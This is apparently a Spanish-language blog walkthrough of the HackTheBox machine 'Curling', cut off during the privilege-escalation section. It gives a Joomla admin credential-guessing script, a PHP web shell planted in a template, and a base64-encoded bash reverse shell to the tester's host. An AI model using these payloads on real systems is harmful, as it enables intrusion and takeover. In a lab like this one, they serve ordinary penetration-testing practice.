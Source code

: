 ```yaml
---
layout      : post
title       : "HackTheBox - Curling"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160banner.png
category    : [ htb ]
tags        : [ joomla, backup, cURL-config-file, /etc/shadow ]
---
```

Máquina Linux nivel fácil. Ojos bien abiertos en la página web, jueguitos con **templates** de **Joomla**, loops de backups (?), movimientos sensuales con un archivo de configuración de **cURL** y ayudamos al usuario **root** a renovar su contraseña modificando el archivo **/etc/shadow**.

![160curlingHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160curlingHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [L4mpje](https://www.hackthebox.eu/profile/29267).

Juegue juegue, todo pelota!

Encontraremos un servidor web con el **gestor de contenido `Joomla`** bastante juguetón, inspeccionaremos código y texto para extraer credenciales. Estas nos serán válidas contra el panel admin de **Joomla**. Estando dentro modificaremos un `template` para que interprete código `PHP` "malicioso", usaremos esto para obtener una **Reverse Shell** como el usuario `www-data`.

En el sistema, específicamente en la carpeta `/home` del usuario `floris` encontraremos un archivo llamado `password_backup`, el tipo de archivo nos indicará que es un comprimido, pero al descomprimirlo obtenemos otro comprimido, jugaremos con eso para después de unas cuantas descompresiones obtener el archivo `password.txt` y conseguir una **Shell** como el usuario **floris** en el sistema.

Nos daremos cuenta de que el usuario `root` esta ejecutando unas instrucciones automatizadas que interactúan con dos archivos a los que tenemos acceso, `input` y `report`. ***input*** es un archivo de configuración de `cURL` (o sea, toma el contenido y si son comandos usados por **curl**, los ejecuta) y ***report*** guarda la respuesta de la petición o configuración dada en ***input***. Haremos que el archivo `input` lea archivos del sistema jugando con `file://`, como la instrucción la ejecuta ***root*** podemos leer cualquier archivo.

Usaremos esa habilidad para modificar el archivo `/etc/shadow` con otra contraseña para el usuario ***root***, esto para obtener una **Shell** en el sistema como él.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Algo juguetona, pero toca temas realistas y conocidos.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Vivo vivito.

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos **CMS Joomla**](#puerto-80).
3. [Explotación](#explotacion).
  * [Modificamos **template** de **Joomla** para conseguir **ejecución remota de comandos**](#joomla-template-rce).
  * [Obtenemos **Reverse Shell** en el sistema como <u>www-data</u>](#joomla-template-rce-reverseshell).
4. [Movimiento lateral **backup_password**: Vamos de **www-data** a **floris**](#backupassword-floris).
  * [Jugamos a descomprimir el comprimido del comprimido](#password-decompress).
5. [Escalada de privilegios](#escalada-de-privilegios).
  * [Explotando el archivo que toma **cURL** como "configuración"](#breaking-curlfig).
  * [Cambiamos la contraseña del usuario **root** para obtener una **Shell**](#shadow-root).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Inicialmente necesitamos saber que puertos tiene abiertos la máquina, los descubriremos con `nmap`:

```bash
❱ nmap -p- --open -v 10.10.10.150 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve dos puertos:

```bash
# Nmap 7.80 scan initiated Thu Aug 19 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.150
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.150 ()	Status: Up
Host: 10.10.10.150 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Aug 19 25:25:25 2021 -- 1 IP address (1 host up) scanned in 104.58 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)**: Tenemos la opción de obtener una Shell de forma segura. |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Esta sirviendo un servidor web. |

Ahora tenemos que profundizar un poco, necesitamos saber que versiones y script están siendo ejecutad@s por cada servicio (puerto), así nuestra próxima investigación es muuucho más pequeña:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.150
    [*] Open ports: 22,80

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 22,80 -sC -sV 10.10.10.150 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Obtenemos:

```bash
# Nmap 7.80 scan initiated Thu Aug 19 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.150
Nmap scan report for 10.10.10.150
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 25:25:25 2021 -- 1 IP address (1 host up) scanned in 12.56 seconds
```

Tenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | Apache httpd 2.4.29 |

Lo único llamativo es `Joomla`, que es un *gestor de contenido* web. Sigamos profundizando a ver que encontramos.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Puerto 80 [📌](#puerto-80) {#puerto-80}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

De primeras vemos 4 cosas interesantes:

* El título hace referencia a **dos herramientas**: `cewl` (para extraer el texto de una página web y convertirlo en un objeto de palabras (como un diccionario)) y `curl` (para realizar peticiones web desde una consola).
* Estamos ante el **CMS (gestor de contenido)** `Joomla`.
* Y hay un **login panel**.

---

🌈 ***`Joomla` como dijimos es un gestor de contenido que permite crear sitios web intuitivos, dinámicos e interactivos. Contiene así mismo un -panel administrativo- el cual sirve para modificar toooooodo el contenido que contenga la web.***

Si revisamos la interfaz web vemos mucho texto, esto junto a la referencia de `cewl` nos podría indicar que debemos crear un diccionario de toooooooodas las palabras e intentar hacer un ataque de fuerza bruta contra el login. Pero claro, nos faltaría saber el usuario con el que probar cada palabra...

Leyendo por encima los anuncios nos damos cuenta de que hay dos referencias a posibles usuarios e incluso una cadena que podría ser una contraseña:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_readingHOME_possibleCREDS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, ya tendríamos 3 usuarios con los cuales podríamos probar cada palabra de la web:

* `Super User` o `SuperUser` o `superuser` y distintas variantes.
* `Floris` o `floris` y variaciones.
* `pebble` o `Pebble`, etc.

Antes de eso veamos si existe algún recurso que el servidor esté sirviendo, pero que no veamos a simple vista:

```bash
❱ dirsearch.py -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.150/
...
Target: http://10.10.10.150/

[25:25:25] Starting: 
[25:25:25] 301 -  320B  - /administrator  ->  http://10.10.10.150/administrator/
[25:25:25] 301 -  310B  - /bin  ->  http://10.10.10.150/bin/
[25:25:25] 301 -  312B  - /cache  ->  http://10.10.10.150/cache/
[25:25:25] 301 -  317B  - /components  ->  http://10.10.10.150/components/
[25:25:25] 301 -  313B  - /images  ->  http://10.10.10.150/images/
[25:25:25] 301 -  315B  - /includes  ->  http://10.10.10.150/includes/
[25:25:25] 200 -   14KB - /index.php
[25:25:25] 301 -  315B  - /language  ->  http://10.10.10.150/language/
[25:25:25] 301 -  314B  - /layouts  ->  http://10.10.10.150/layouts/
[25:25:25] 301 -  316B  - /libraries  ->  http://10.10.10.150/libraries/
[25:25:25] 301 -  312B  - /media  ->  http://10.10.10.150/media/
[25:25:25] 301 -  314B  - /modules  ->  http://10.10.10.150/modules/
[25:25:25] 301 -  314B  - /plugins  ->  http://10.10.10.150/plugins/
[25:25:25] 403 -  300B  - /server-status
[25:25:25] 301 -  316B  - /templates  ->  http://10.10.10.150/templates/
[25:25:25] 301 -  310B  - /tmp  ->  http://10.10.10.150/tmp/
```

Vemos varios recursos y la mayoría son **redirects**, pero redireccionan al mismo recurso...

Todos son objetos que usa `Joomla` en su ejecución y funcionamiento, pero hay dos llamativos `administrator` y `tmp`. Revisando cada uno, simplemente **administrator** nos devuelve algo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_administrator.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Recuerdan que en la definición de **Joomla** dijimos que existe un ***panel administrativo** el cual sirve para modificar tooooooodo lo relacionado con el sitio web, pues es este (: Pero de nuevo estamos F, no hay credenciales para probar (además de las default, pero que no funcionan).

Ya con nada más a enumerar, tenía puesto en mi mente el crear el script para jugar (pero no sabía que me faltaba algo que siempre hago y que esta vez se me olvido (¿ya saben que puede ser?), genere la estructura del script, empece a armar las funciones y las demás cositas. Llego el momento de ver si existían tokens o variables locas que viajaban entre el formulario, con lo cual era necesario ver la estructura (HTML) de la web. 

En este caso lo que veremos ahora lo encontré al ejecutar un script en `Python` y viendo la respuesta de una petición web con el método `GET` hacia el ***home (`index.php`)***, pero también se puede ver simplemente inspeccionando el código fuente `HTML`.

```py
...
import requests

URL = "http://10.10.10.150"

r = requests.get(URL)
print(r.text)
...
```

En su ejecución la respuesta (`r.text`) nos muestra algo curioso al final:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_scriptPY_rTEXThome_secretsTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAYA VAYAAAAAAAAAAAaa lo que vemoooooooooooooos, hay un comentario que dice `secret.txt`, o sea referencia un archivo `.txt`, si intentamos buscarlo como recurso de la web, l o e n c o n t r a m o s:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_secretsTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Una cadena extraña, pero tiene tintes de estar encodeada en [base64](https://es.wikipedia.org/wiki/Base64), validémoslo intentando decodificarla:

```bash
❱ echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

OIEEEEEEEEEEEEEEeeeEeeee, eso sí que parece una contraseña eh! Bastante feo, raro y mehh que este ese recurso ahí en la web como si nada y con un comentario en el **home** referenciándola, pero bueno, sigamos...

Ya tenemos dos cadenas que parecen contraseñas:

* `curling2018`.
* `Curling2018!`.

Y tenemos los usuarios de antes, pues en vez de jugar con diccionarios probemos rápidamente cada usuario "potencial" con las dos contraseñas:

```py
#!/usr/bin/python3

import requests
import signal
import re

# Variables -----------------------.
URL = "http://10.10.10.150/administrator/index.php"

# Funciones -----------------------.
def def_handler(sig, frame):  # Ctrl+C
    print("\nsaLi3ndoo..\n")
    exit(0)

signal.signal(signal.SIGINT, def_handler)

def login(username, password):  # tryLogin
    # Generamos una nueva sesión para cada intento
    session = requests.Session()

    # Extraemos tokens de sesión
    r = session.get(URL)
    hidden_return_value = re.findall(r'<input type="hidden" name="return" value="(.*?)"', r.text)[0]
    hidden_csrf_token_value = re.findall(r'<script type="application/json" class="joomla-script-options new">{"csrf.token":"(.*?)"', r.text)[0]

    data_post = {
        "username": username,
        "passwd": password,
        "option": "com_login",
        "task": "login",
        "return": hidden_return_value,
        hidden_csrf_token_value: "1"
    }
    r = session.post(URL, data=data_post)

    if "Username and password do not match or you do not have an account yet" not in r.text:
        print(f"Credenciales válidas: {username}:{password}")
        exit(0)

def main():  # elCentrico
    array_users = ["Super User", "Floris", "plebbe"]
    array_passwords = ["curling2018", "Curling2018!"]

    for username in array_users:
        for password in array_passwords:
            # Enviamos el usuario con algunas variantes, como MAYUSCULAS, minusculas, quitando espacios, etc.
            login(username.lower(), password)
            login(username.upper(), password)
            login(username.replace(' ',''), password)
            login(username.replace(' ','').lower(), password)
            login(username.replace(' ','').upper(), password)

    print("Ninguna credencial es válida...")

# Inicio del programa -------------.
if __name__ == '__main__':
    main()
```

Si lo ejecutamos, tenemoooooooooooooooooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_scriptPY_fuzzUsers_validCREDSjoomla.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAAAAA, pues validémoslas en la web:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_administrator_LOGIN_DONEasFLORIS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y SIII, tamos dentro (:

...

# Explotación [#](#explotacion) {#explotacion}

🔥 [Si ya sabes como conseguir **RCE** modificando el template en **Joomla** puedes evitar mi explicación e ir directamente a como obtuvimos la **Reverse Shell**](#joomla-template-rce-reverseshell).

Ya dentro el conseguir una ejecución remota de comandos es muy sencillo, sigamos un post que me gusta mucho:

* [Joomla Reverse Shell](https://www.hackingarticles.in/joomla-reverse-shell/).

Lo único que debemos hacer es modificar el contenido de un `template`, existen varios objetos, modificamos uno de ellos con nuestro código `PHP` y ya la web lo interpretaría (:

Por ejemplo hagamos que la web ejecute el comando `whoami` y que nos lo muestre:

---

## Modificamos <u>template</u> para conseguir <u>RCE</u> [📌](#joomla-template-rce) {#joomla-template-rce}

Debemos seguir esta ruta de clics, primero `extensions`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_extensions.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Después `templates`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_extensions_templates.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vemos algo así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templates.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en donde indica la flecha y llegamos a este apartado:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templates_list.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Seleccionamos cualquiera de los dos ***templates***, yo usaré `Beez3`, damos clic en su nombre y veríamos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templateFILES_beez3.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Yo modificaré el archivo `error.php`, damos clic sobre él y empezamos a jugar...

El contenido original no nos interesa, lo borramos (o guardamos en algún lado para después volverlo dejar como si no hubiéramos modificado nada 🤭) y retomamos la idea de ejecutar `whoami`, el archivo quedaría así:

```php
<?php system("whoami"); ?>
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_template_beez3_errorPHP_whoami.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* [Manual PHP - system()](https://www.php.net/manual/es/function.system.php).

---

Lo siguiente será guardar el nuevo contenido del archivo `error.php`, damos `Save` y veríamos este mensaje:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_template_beez3_errorPHP_saved.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perfecto, ahora solo debemos ver el contenido **interpretado**, siguiendo esta ruta llegamos al objeto `error.php`:

```html
http://10.10.10.150/templates/beez3/error.php
```

Yyyyy en la web veríamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_templateBEEZ3_errorPHP_whoamiRCE_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OJOOOOOOOOOOOOOOOOOOOOOO, vemos que no hay errores y por el contrario se nos interpreta el contenido, nos indica que el usuario que ejecuta el servicio **Joomla** es `www-data`. ASÍ QUEEEEEE TEEEENEEEEEMOOOOOS ejecución remota de comandos sobre el sistema (:

Entablémonos una reverse Shell...

Podemos indicárselo en el mismo `sy, pero A MÍ me gusta guardar una variable desde el método `GET` que su contenido sea el que interprete la función `system()`, así no tenemos que estar modificando el contenido del template y solo jugamos con la variable `xmd`, veamos un ejemplo rápido. Esta sería la estructura del archivo `error.php`:

```php
<?php system($_GET['xmd']); ?>
```

Donde la petición recibirá una variable llamada `xmd` que contendrá nuestro comando y ese comando sería ejecutado por la función `system()`.

Guardamos y validamos el archivo en la web, ahora ejecutemos `hostname`:

```html
http://10.10.10.150/templates/beez3/error.php?xmd=hostname
```

Yyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_templateBEEZ3_errorPHP_GETvarXMD_hostnameRCE_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

LISTOOOONES, ahora si hagamos una reverse Shell (:

---

## Obtenemos <u>Shell</u> en el sistema como <u>www-data</u> [📌](#joomla-template-rce-reverseshell) {#joomla-template-rce-reverseshell}

Nos ponemos en escucha:

```bash
❱ nc -lvp 4433
```

Generamos nuestro payload (lo que ejecutara el sistema) y lo encodeamos en **base64**:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.5/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MzMgMD4mMQo=
```

Una vez la petición sea recibida en nuestro puerto `4433` se generará una `/bin/bash`. 

Ahora **URLencodeamos** para evitar que `+` o `=` sean interpretados de manera errónea por la web, usaremos [esta web](https://www.urlencoder.org/):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_URLencode_revSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y lo que haremos para que el sistema entienda lo que le enviamos y lo interprete será:

```html
http://10.10.10.150/templates/beez3/error.php?xmd=echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MzMgMD4mMQo%3D | base64 -d | bash
```

Lanzamos la petición y en nuestro listeneeeeeeeeeeeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataRevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

TAMO DENTROOROROWOWOWOWOWOWOOWOW!!

...

He creado un script para automatizar la modificación del template y obtener ejecución remota de comandos desde él, se los dejo por si algo (con él no es necesario **URLencodear** nada):

🔢 [***joomlArce.py***](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/curling/joomlArce.py)

...

Antes de seguir hagamos un tratamiento de la **TTY**, esto para que nuestra Shell sea completamente interactiva, nos permita ejecutar `Ctrl+C`, tener histórico de comandos y movernos entre ellos.

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

Ahora si sigamos...

...

# backup_password: www-data -> floris [#](#backupassword-floris) {#backupassword-floris}


Enumerando los directorios desde que obtenemos la reverse Shell hacia atrás vemos uno llamativo ¿lo ves?:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_lsLA_configurationPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un objeto con nombre `configuration.php` nos dice "investígame", así que hagámosle caso:

(Es muy grande 😏)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_configurationPHP_creds.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Entre todo lo que hay detallamos dos contraseñas, `$password` y `$secret`. Una de ellas es para el servicio `MySQL` y el usuario `floris`, si las probamos si nos permiten entrar al servicio `MySQL`, pero no encontramos nada útil en él :( e intentando reutilización de contraseñas tampoco obtenemos nada...

Enumerando el sistema, encontramos un dos archivos llamativos en el `/home` de **floris**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_lsLA_home.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* El directorio `admin-area`, pero no tenemos acceso a él aún.
* Por el contrario si tenemos acceso al objeto `password_backup`. 

---

## Descomprimiendo el comprimido del comprimido [📌](#password-decompress) {#password-decompress}

Veamos el backup...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_catBackupPassword.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

El resultado de un dumpeo `hexadecimal` contra un objeto, pero ¿cómo sabemos que es de un objeto?, bueno, investigando existe una herramienta con la que podemos (entre muuuchas cosas) -revertir- ese contenido **hexadecimal** al original.

* [xxd - Unix, Linux Command](https://www.tutorialspoint.com/unix_commands/xxd.htm)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_xxd_revert.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues intentémoslo y guardemos el resultado en un archivo:

```bash
www-data@curling:/home/floris$ xxd -r password_backup > /tmp/file_reverse
```

Y si validamos el archivo resultante vemos el tipo de archivo original:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: bzip2 compressed data, block size = 900k
```

Un comprimido [bzip2](https://es.wikipedia.org/wiki/Bzip2), pues démosle el nombre de archivo necesario e intentemos descomprimirlo:

(***Al ser poquitas veces las que debemos descomprimir el archivo, aprovecho para mostrarles el paso a paso***)

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.bz2
www-data@curling:/tmp$ bzip2 -d file_reverse.bz2
```

Y como resultado tenemos un nuevo objeto:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
```

Ahora tenemos un objeto comprimido con [gzip](https://www.ochobitshacenunbyte.com/2019/09/19/comandos-gzip-y-gunzip-en-gnu-linux/), descomprimámoslo:

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.gz
www-data@curling:/tmp$ gzip -d file_reverse.gz
```

Y obtenemos un nuevo `bzip2`:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: bzip2 compressed data, block size = 900k
```

Volvemos a descomprimirlo:

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.bz2  
www-data@curling:/tmp$ bzip2 -d file_reverse.bz2
```

Y como resultado ahora obtenemos:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: POSIX tar archive (GNU)
```

Un objeto [tar](https://www.howtogeek.com/248780/how-to-compress-and-extract-files-using-the-tar-command-on-linux/), descomprimámoslo:

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.tar.gz
www-data@curling:/tmp$ tar -xvf file_reverse.tar.gz 
password.txt
```

Nos devuelve el objeto `password.txt` y ese si parece ser un archivo de texto, validemos:

```bash
www-data@curling:/tmp$ file password.txt 
password.txt: ASCII text
```

Pos si, si vemos su contenido encontramos una cadena que si tiene toda la pinta de ser una credencial:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_passwordTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues si la validamos ya sea con `su floris` o ejecutando en otra terminal `ssh floris@10.10.10.150`, vamos a obtener lo mismo, una **sesión en el sistema como `floris`**:

```bash
❱ ssh floris@10.10.10.150
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_ssh_florisSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PEEEERRRFECCCTOOOO!!

...

Cree un script en `bash` que va a moverse entre toooooodos los archivos modificando sus nombres y efectuando la dezcomprimhisazion:

🔢 [brutopress.sh](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/curling/brutopress.sh)

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si recordamos había una carpeta bastante llamativa en el `/home` de **floris**:

```bash
floris@curling:~$ ls
admin-area  password_backup  user.txt
```

Veamos que hay en ella:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_lsLA_HomeAdminPanel.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmmm, si nos fijamos son archivos actuales y que tienen la misma hora-fecha de creación/modificación, YYYYY al estar en el grupo `floris` tenemos acceso a modificarlos y leerlos, curioso, bastante curioso...

Revisando el contenido de cada uno tenemos:

```bash
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

```html
floris@curling:~/admin-area$ cat report
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        ...
...
```

El objeto `report` tiene el mismo código **HTML** que si hacemos una petición hacia el recurso `http://10.10.10.150`, con lo cual sabemos que internamente también esta siendo ejecutado el **CMS** `Joomla`...

Sin entender muy bien que hacer me puse a enumerar que instrucciones o acciones están siendo ejecutadas de manera -automatizada- en el sistema.

Existen varios métodos, pero hay una herramienta llamada [pspy](https://github.com/DominicBreuker/pspy) que hace un recorrido por el sistema buscando tareas que se estén ejecutando.

Descargamos el binario de [acá](https://github.com/DominicBreuker/pspy/releases) y lo subimos a la máquina:

```bash
# Creamos entorno de trabajo
floris@curling:/tmp$ mkdir miacosa
floris@curling:/tmp$ cd miacosa/
floris@curling:/tmp/miacosa$ curl http://10.10.14.5:8000/pspy -o pspy
floris@curling:/tmp/miacosa$ file pspy 
pspy: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

Listo, ahora lo ejecutamos:

```bash
floris@curling:/tmp/miacosa$ chmod +x pspy
floris@curling:/tmp/miacosa$ ./pspy
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_pspy_FOUNDcurl.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAa, existen dos instrucciones siendo ejecutadas por el usuario `root` (por el **UID** (user id), ***root*** siempre tiene asignado `0`), pero solo una nos llama la atención, ya que esta interactuando con los archivos `input` y `report`, los dos objetos que encontramos antes y que tenían fecha-hora igual. ¡Ahí esta la razón de eso!!

Es ejecutada cada minuto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_pspy_FOUNDcurlEACHminute.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

La instrucción es sencilla:

```bash
